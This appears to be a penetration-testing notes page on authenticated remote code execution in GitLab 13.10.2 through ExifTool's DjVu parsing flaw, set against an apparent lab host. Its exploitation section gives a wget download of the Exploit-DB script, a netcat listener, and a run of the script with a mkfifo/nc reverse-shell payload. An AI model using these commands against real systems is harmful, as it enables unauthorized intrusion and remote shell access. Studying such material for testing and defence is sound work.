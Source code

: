 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# 13.10.2 - Remote Code Execution (Authenticated)

When uploading image files, GitLab Workhorse passes any files with the extensions [jpg|jpeg|tiff](https://gitlab.com/gitlab-org/gitlab/-/blob/v13.10.2-ee/workhorse/internal/upload/exif/exif.go#L104) through to [ExifTool](https://exiftool.org/) to remove any non-whitelisted tags. An issue with this is that ExifTool will ignore the file extension and try to determine what the file is based on the content, allowing for any of the supported parsers to be hit instead of just JPEG and TIFF by just renaming the uploaded file.

One of the supported formats is [DjVu](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm). When parsing the DjVu annotation, the [tokens are evaled](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm#L233) to "convert C escape sequences". There is some validation to try and ensure that everything is properly escaped, but a backslash followed by a newline is correctly handled allowing the quotes to be closed and arbitrary perl inserted and evaluated.

{% hint style="info" %}
## Official GitLab Report

[https://hackerone.com/reports/1154542](https://hackerone.com/reports/1154542)
{% endhint %}

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/49951](https://www.exploit-db.com/exploits/49951)
{% endhint %}

## Exploitation

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack.

Download the exploit script:

{% code title="Command" %}
```bash
wget https://www.exploit-db.com/download/49951 -O gitlab_13_10_2_rce.py
```
{% endcode %}

Start a [netcat.md](../../../../toolbox/tooling/post-exploitation/netcat.md "mention") listener:

{% code title="Command" %}
```bash
nc -lnvp 8443
```
{% endcode %}

Run exploit script from Exploit DB:

{% code title="Command" overflow="wrap" %}
```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u <USER> -p <PASS> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 8443 >/tmp/f '
```
{% endcode %}

{% code title="Output" %}
```bash
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```
{% endcode %}
